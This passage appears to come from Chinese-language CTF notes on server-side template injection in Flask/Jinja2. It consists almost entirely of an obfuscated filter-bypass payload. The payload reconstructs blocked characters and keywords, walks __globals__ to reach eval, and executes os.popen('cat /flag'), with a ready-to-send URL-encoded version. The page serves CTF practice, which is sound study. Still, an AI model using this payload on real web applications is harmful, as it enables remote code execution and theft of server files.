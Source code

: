 - **attr与过滤器**

  如果没有过滤`globals`，从`globals`里把`eval`函数找出来，然后构造任意字符串放进去RCE即可。

  参考：https://www.gem-love.com/ctf/2598.html

  复制

  ```
  {% set xhx = (({ }|select()|string()|list()).pop(24)|string())%}  # _
  {% set spa = ((app.__doc__|list()).pop(102)|string())%}  #空格
  {% set pt = ((app.__doc__|list()).pop(320)|string())%}  #点
  {% set yin = ((app.__doc__|list()).pop(337)|string())%}   #单引号
  {% set left = ((app.__doc__|list()).pop(264)|string())%}   #左括号(
  {% set right = ((app.__doc__|list()).pop(286)|string())%}   #右括号)
  {% set slas = (y1ng.__init__.__globals__.__repr__()|list()).pop(349)%}   #斜线/
  {% set bu = dict(buil=aa,tins=dd)|join() %}  #builtins
  {% set im = dict(imp=aa,ort=dd)|join() %}  #import
  {% set sy = dict(po=aa,pen=dd)|join() %}  #popen
  {% set os = dict(o=aa,s=dd)|join() %}  #os
  {% set ca = dict(ca=aa,t=dd)|join() %}  #cat
  {% set flg = dict(fl=aa,ag=dd)|join() %}  #flag
  {% set ev = dict(ev=aa,al=dd)|join() %} #eval
  {% set red = dict(re=aa,ad=dd)|join()%}  #read
  {% set bul = xhx*2~bu~xhx*2 %}  #__builtins__
  
  #拼接起来 __import__('os').popen('cat /flag').read()
  {% set pld = xhx*2~im~xhx*2~left~yin~os~yin~right~pt~sy~left~yin~ca~spa~slas~flg~yin~right~pt~red~left~right %} 
  
  
  {% for f,v in y1ng.__init__.__globals__.items() %} #globals
  	{% if f == bul %} 
  		{% for a,b in v.items() %}  #builtins
  			{% if a == ev %} #eval
  				{{b(pld)}} #eval(pld)
  			{% endif %}
  		{% endfor %}
  	{% endif %}
  {% endfor %}
  
  #payload
  #{%%20set%20xhx%20=%20(({%20}|select()|string()|list()).pop(24)|string())%}{%%20set%20spa%20=%20((app.__doc__|list()).pop(102)|string())%}{%%20set%20pt%20=%20((app.__doc__|list()).pop(320)|string())%}%20{%%20set%20yin%20=%20((app.__doc__|list()).pop(337)|string())%}{%%20set%20left%20=%20((app.__doc__|list()).pop(264)|string())%}%20{%%20set%20right%20=%20((app.__doc__|list()).pop(286)|string())%}%20{%%20set%20slas%20=%20(y1ng.__init__.__globals__.__repr__()|list()).pop(349)%}%20{%%20set%20bu%20=%20dict(buil=aa,tins=dd)|join()%20%}{%%20set%20im%20=%20dict(imp=aa,ort=dd)|join()%20%}{%%20set%20sy%20=%20dict(po=aa,pen=dd)|join()%20%}{%%20set%20os%20=%20dict(o=aa,s=dd)|join()%20%}%20{%%20set%20ca%20=%20dict(ca=aa,t=dd)|join()%20%}{%%20set%20flg%20=%20dict(fl=aa,ag=dd)|join()%20%}{%%20set%20ev%20=%20dict(ev=aa,al=dd)|join()%20%}%20{%%20set%20red%20=%20dict(re=aa,ad=dd)|join()%}{%%20set%20bul%20=%20xhx*2~bu~xhx*2%20%}{%%20set%20pld%20=%20xhx*2~im~xhx*2~left~yin~os~yin~right~pt~sy~left~yin~ca~spa~slas~flg~yin~right~pt~red~left~right%20%}%20{%%20for%20f,v%20in%20y1ng.__init__.__globals__.items()%20%}{%%20if%20f%20==%20bul%20%}{%%20for%20a,b%20in%20v.items()%20%}{%%20if%20a%20==%20ev%20%}{{b(pld)}}{%%20endif%20%}{%%20endfor%20%}{%%20endif%20%}{%%20endfor%20%}
  ```
